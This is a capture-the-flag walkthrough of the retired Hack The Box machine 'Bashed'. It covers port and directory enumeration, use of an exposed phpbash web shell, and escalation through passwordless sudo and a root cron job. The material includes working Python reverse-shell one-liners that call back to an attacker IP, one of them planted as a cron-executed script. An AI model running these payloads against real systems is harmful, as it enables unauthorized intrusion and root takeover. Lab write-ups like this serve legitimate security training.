 ```yaml
---
title: HTB: Bashed
url: https://0xdf.gitlab.io/2018/04/29/htb-bashed.html
date: 2018-04-29T01:25:59+00:00
difficulty: Easy [20]
os: Linux
tags: ctf, hackthebox, htb-bashed, php, sudo, cron, oscp-like-v1
---
```


Bashed retired from hackthebox.eu today. Here’s my notes transformed into a walkthrough. These notes are from a couple months ago, and they are a bit raw, but posting here anyway.

## Box Info

| Name | [Bashed](https://hackthebox.com/machines/bashed)  [Bashed](https://hackthebox.com/machines/bashed) [Play on HackTheBox](https://hackthebox.com/machines/bashed) |
| --- | --- |
| Release Date | 09 Dec 2017 |
| Retire Date | 04 May 2024 |
| OS | Linux Linux |
| Base Points | Easy [20] |
| Rated Difficulty | Rated difficulty for Bashed |
| Radar Graph | Radar chart for Bashed |
| First Blood User | 00:03:16[paciock paciock](https://app.hackthebox.com/users/9825) |
| First Blood Root | 00:22:18[zc00l zc00l](https://app.hackthebox.com/users/3564) |
| Creator | [Arrexel Arrexel](https://app.hackthebox.com/users/2904) |

## User

An initial nmap scan showed only port 80:

```

root@kali# nmap -sV -sC -oA nmap/initial 10.10.10.68
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-06 20:40 EST
Nmap scan report for 10.10.10.68
Host is up (0.098s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.85 seconds

```

The page is a blog with one post about phpbash:
![](https://0xdfimages.gitlab.io/img/phpbash.png)
![](https://0xdfimages.gitlab.io/img/main.png)

So let’s fire up gobuster and see what the site looks like:

```

root@kali# gobuster -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

Gobuster v1.4.1              OJ Reeves (@TheColonial)
=====================================================
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.68/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
=====================================================
/images (Status: 301)
/uploads (Status: 301)
/php (Status: 301)
/css (Status: 301)
/dev (Status: 301)
/js (Status: 301)
/fonts (Status: 301)

```

`/dev` is interesting. and allows dirwalks:

![](https://0xdfimages.gitlab.io/img/index_of_dev.png)

Clicking on phpbash gives a shell:

![](https://0xdfimages.gitlab.io/img/phpbash_shell.png)

Inside /home/arrexel is the user flag:

```

www-data@bashed:/home/arrexel# ls
user.txt
www-data@bashed:/home/arrexel# wc -c user.txt
33 user.txt

```

## Shell upgrade

In phpbash, run:

```

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.157",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

Local Kali:

```

root@kali# nc -lnvp 1235
listening on [any] 1235 ...
connect to [10.10.14.157] from (UNKNOWN) [10.10.10.68] 49932
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@bashed:/var/www/html/dev$

```

## root

Start with LinEnum.sh to get info about privesc. This section stands out:

```

www-data can sudo as scriptmanager:
We can sudo without supplying a password!
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL

```

Easy to get a shell as scriptmanager: `sudo -u scriptmanager /bin/bash`

Now scriptmanager has access to a folder that www-data could not access:

```

$ ls -ld /scripts
drwxrwxr-- 2 scriptmanager scriptmanager 4096 Dec  4 18:06 /scripts

```

Inside that directory, there are two files:

```

scriptmanager@bashed:/scripts$ ls -l
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4 17:03 test.py
-rw-r--r-- 1 root          root          12 Mar  7 04:09 test.txt

scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close

scriptmanager@bashed:/scripts$ cat test.txt
testing 123!

```

Most interesting is that the test.txt file is owned by root, and seems to be the result of the test.py script, which is writable by scriptmanager.

First, I tried moving test.txt to test.txt.old. A few minutes later, it’s back:

```

scriptmanager@bashed:/scripts$ date
Wed Mar  7 05:37:32 PST 2018

scriptmanager@bashed:/scripts$ ls
test.py  test.txt.old  test2.py  test3.py  testt.py

scriptmanager@bashed:/scripts$ date
Wed Mar  7 05:39:14 PST 2018

scriptmanager@bashed:/scripts$ ls
test.py  test.txt  test.txt.old  test2.py  test3.py  testt.py

```

Something is running that test.py script from the /scripts directory.

Create a test script that writes to a different file, and it writes the different file. So any .py file seems to be run. Also, since test.py doesn’t have a #! at the start, it seems that whatever is running this (maybe a cron?) is calling python.

It is possible to just write a script that reads /root/root.txt and writes it elsewhere, but it’s better to get a shell! Create the exploit:

```

scriptmanager@bashed:/scripts$ echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.157\",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > .exploit.py

```

On Kali, set up a listener, and get root shell:

```

root@kali# nc -lnvp 31337
listening on [any] 31337 ...
connect to [10.10.14.157] from (UNKNOWN) [10.10.10.68] 47806
/bin/sh: 0: can't access tty; job control turned off

# id
uid=0(root) gid=0(root) groups=0(root)

# python -c 'import pty; pty.spawn("/bin/bash")'

root@bashed:/scripts# crontab -l
* * * * * cd /scripts; for f in *.py; do python "$f"; done

root@bashed:/scripts# wc -l /root/root.txt
33 /root/root.txt

```

As expected, there’s a cron that’s running scripts from the /scripts directory as root.
